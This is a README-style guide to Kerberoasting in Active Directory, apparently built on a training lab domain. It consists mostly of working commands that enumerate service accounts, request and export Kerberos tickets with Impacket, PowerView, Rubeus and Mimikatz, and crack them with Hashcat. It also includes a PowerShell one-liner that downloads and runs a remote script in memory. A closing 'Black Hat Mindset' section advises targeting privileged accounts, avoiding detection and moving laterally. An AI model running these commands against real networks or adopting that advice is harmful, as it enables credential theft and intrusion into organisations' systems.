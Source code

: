 # Active Directory Kerberoasting README

This README explores Kerberoasting attacks to extract and crack TGS (Ticket Granting Service) tickets, targeting Service Principal Names (SPNs) for offline password cracking.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Enumerating SPNs](#enumerating-spns)
- [Requesting TGS Tickets](#requesting-tgs-tickets)
- [Cracking TGS Tickets](#cracking-tgs-tickets)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Kerberoasting exploits Kerberos authentication by requesting TGS tickets for accounts with SPNs (e.g., SQL service accounts), which are encrypted with the account's password hash. These tickets can be cracked offline to reveal plaintext credentials. This guide uses Impacket, PowerView, Rubeus, Mimikatz, and Hashcat to enumerate SPNs, request tickets, and crack hashes. Commands are performed from Windows or Linux hosts, assuming you have compromised domain credentials (e.g., `INLANEFREIGHT.LOCAL/mholliday`).

## Setup and Prerequisites

- **Environment**: Linux host for Impacket and Hashcat, Windows host for PowerView, Rubeus, and Mimikatz.
- **Impacket**: Install on Linux (e.g., `sudo python3 -m pip install .` inside the cloned Impacket directory).
- **PowerView**: Load into memory on Windows (e.g., `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')`).
- **Rubeus**: Download the Rubeus executable on Windows (e.g., from its GitHub repo) and place it in your working directory (e.g., `C:\Tools\`).
- **Mimikatz**: Download the Mimikatz executable on Windows and place it in your working directory.
- **Hashcat**: Install on Linux (e.g., `apt install hashcat`) with a wordlist (e.g., `/usr/share/wordlists/rockyou.txt`).
- **kirbi2john**: Install on Linux (e.g., part of John the Ripper suite, `apt install john`) for converting .kirbi tickets.
- **PowerShell**: Run with appropriate privileges on Windows (right-click > "Run as Administrator").
- **Credentials**: Use compromised domain credentials (e.g., `INLANEFREIGHT.LOCAL/mholliday`) to request TGS tickets.

## Enumerating SPNs

Identify accounts with SPNs, which are prime targets for Kerberoasting.

```bash
# Display options and functionality for Impacket's GetUserSPNs.py (Linux host)
GetUserSPNs.py -h

# List SPNs in the INLANEFREIGHT.LOCAL domain
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday

# Enumerate all SPNs in the target Windows domain
setspn.exe -Q */*

# Use PowerView to list all accounts with SPNs
Import-Module .\PowerView.ps1; Get-DomainUser * -spn | select samaccountname

# Check SPN and encryption types for specific account
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

# Display Kerberoasting stats in the domain
.\Rubeus.exe kerberoast /stats
```

## Requesting TGS Tickets

Request TGS tickets for offline cracking, formatting them as needed.

```bash
# Request TGS tickets for all SPNs (Linux)
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request

# Request TGS ticket for specific user
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev

# Save TGS ticket to file
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs
```

```powershell
# Request TGS ticket for specific SPN (PowerShell)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

# Request TGS tickets for all SPNs
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

# Configure Mimikatz for base64 output
mimikatz # base64 /out:true

# Extract TGS tickets using Mimikatz
kerberos::list /export

# Request and format TGS ticket for Hashcat
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Export all SPN tickets to CSV
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation

# View exported CSV
cat .\ilfreight_tgs.csv

# Request TGS tickets for privileged accounts
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

# Request TGS ticket for specific user
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

## Cracking TGS Tickets

Crack the extracted TGS tickets to reveal plaintext passwords.

```bash
# Crack TGS ticket with Hashcat
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force

# Prepare base64 TGS ticket
echo "<base64 blob>" | tr -d \n

# Decode base64 ticket to .kirbi
cat encoded_file | base64 -d > sqldev.kirbi

# Convert .kirbi to crackable format
python2.7 kirbi2john.py sqldev.kirbi

# Prepare hash for Hashcat
sed 's/$krb5tgs$(.*):(.*)/$krb5tgs$23$*1*$2/' crack_file > sqldev_tgs_hashcat

# View prepared hash
cat sqldev_tgs_hashcat

# Crack prepared TGS hash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt

# Crack RC4-encrypted ticket
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
```

## Black Hat Mindset

- **Target High-Value Accounts**: Focus on SPNs tied to privileged accounts (e.g., admincount=1) for maximum impact.
- **Stay Undetected**: Request tickets sparingly and crack offline to avoid triggering Kerberos monitoring.
- **Optimize Cracking**: Use a strong wordlist like rockyou.txt and prioritize RC4 tickets (weaker encryption).
- **Pivot Quickly**: Use cracked credentials to escalate privileges or move laterally within the domain.

## Resources

- [Impacket Guide](https://github.com/SecureAuthCorp/impacket)
- [PowerView Documentation](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
- [Rubeus GitHub](https://github.com/GhostPack/Rubeus)
- [Mimikatz Documentation](https://github.com/gentilkiwi/mimikatz)
- [Hashcat Documentation](https://hashcat.net/wiki/)
- [Kerberoasting Explained](https://attack.mitre.org/techniques/T1558/003/)

